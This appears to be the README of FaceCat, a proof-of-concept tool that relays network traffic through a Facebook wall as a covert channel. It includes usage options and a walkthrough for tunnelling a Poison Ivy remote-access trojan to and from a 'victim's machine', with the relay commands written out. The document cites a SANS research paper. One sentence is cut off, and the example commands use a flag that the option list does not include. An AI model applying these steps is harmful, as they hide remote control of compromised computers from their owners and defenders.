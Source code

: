 FaceCat is cover channel Proof of Concept in Facebook. It is not actively maintained, so please not that it may require some HTML parsing changes. Any pull request with an update is more than welcome.
It works similar to the widely known tool NetCat, but 

```
 $ ./facecat.py
Usage: facecat.py [options]
Options:
-h, --help            show this help message and exit wall pipe account
-w WALL, --wall=WALL  wall pipe account 
-c HOST --host=HOST   connection host
-p PORT --port=PORT   listening or connection port
-v --verbose          verbose output
```

* Help: Just show the help

* Wall: Email of the master’s wall. It has to be previously configured in order to allow writing on it.

* Host: FaceCat can work by listening or connecting, as NetCat does. If you chose a host, connection mode is used. If not, listening mode is.

* Port: Port where FaceCat is listening for new connections, or port to connect to (Host:Port connection).

* Verbose: Shows each step of the process. Useful for educational purposes.

Example using Poison Ivy:
1. Create a Poison Ivy server that will try to connect to 127.0.0.1 at port 3460. We also start a Poison Ivy client listening at the same port.
2. Create and configure a FaceBook account in order to write on its wall, for instance `wall1@gmail.com`.
3. Run Internet Explorer and login in our newly created account.
4. Run FaceCat in order to read wall1@gmail.com’s wall and to relay to our local poison ivy’s client: 
```
$ facecat.py –v –m wall1@gmail.com –c 127.0.0.1 –p 3460
```
5. Copy (or infect) FaceCat and Poison Ivy’s server to the victim’s machine.
6. Run FaceCat in order to listen to port 3460 in the victim’s machine and to relay to `wall1@gmail.com`’s wall:
```
$ facecat.py –v –m wall1@gmail.com –p 3460
```
7. Run Poison Ivy’s client in the victim’s machine.
8. Use Poison Ivy normally, but through a FaceBook’s Covert Channel.

Demo: https://youtu.be/C_c8KNvVSVg

Full SANS Paper: https://www.sans.org/reading-room/whitepapers/engineering/covert-channels-social-networks-33960 
